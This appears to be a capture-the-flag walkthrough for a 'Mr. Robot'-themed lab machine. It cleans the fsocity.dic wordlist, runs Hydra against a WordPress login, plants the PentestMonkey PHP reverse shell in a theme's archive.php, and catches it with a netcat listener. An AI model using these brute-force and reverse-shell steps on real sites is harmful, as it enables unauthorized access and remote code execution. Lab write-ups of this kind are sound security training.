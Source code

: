 > The password list `fsocity.dic` has `858160` entries gathered with the command `wc -l fsociety.dic`. I thought this would take awhile so I checked if there were duplicates `sort fsocity.dic | uniq -d | wx -l` which the output was `11441`. Cleaning up the list using `sort -u fsocity.dic -o cleaned_fsocity.dic` would create a shorter listed, removing duplicates, and speeding up the follwoing.
> 

With a valid username (e.g., Elliot), brute force the password.

```bash
hydra -l Elliot -P fsocity.dic <TARGET_IP> http-post-form "/wp-login.php:log=Elliot&pwd=^PASS^:The password you entered for the username Elliot is incorrect" -t 4
```

This should reveal the correct password.

![image.png](image%203.png)

### Log into WordPress

Check the user’s permissions. Editor or Admin access allows theme file editing, which can be leveraged for code execution.

![image.png](image%204.png)

After logging in as Elliot, I edited the `archive.php` template under Appearance > Editor and inserted a reverse shell from .

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![image.png](image%205.png)

Make sure to change the `$ip` and `$port` .

![image.png](image%206.png)

### Prepare Listener

On your machine:

```bash
rlwrap nc -lvnp 1234
```

### Obtain PHP Reverse Shell

Download a reverse shell script (e.g. PentestMonkey’s). Set your IP (RHOST) and port (RPORT) to match your listener.

Inject PHP reverse shell via WordPress

Edit a theme file such as `archive.php` in the WordPress editor. Insert the PHP reverse shell and save.

Trigger reverse shell

Visit the modified page, e.g.: `http://<TARGET_IP>/wp-content/themes/2015/archive.php`
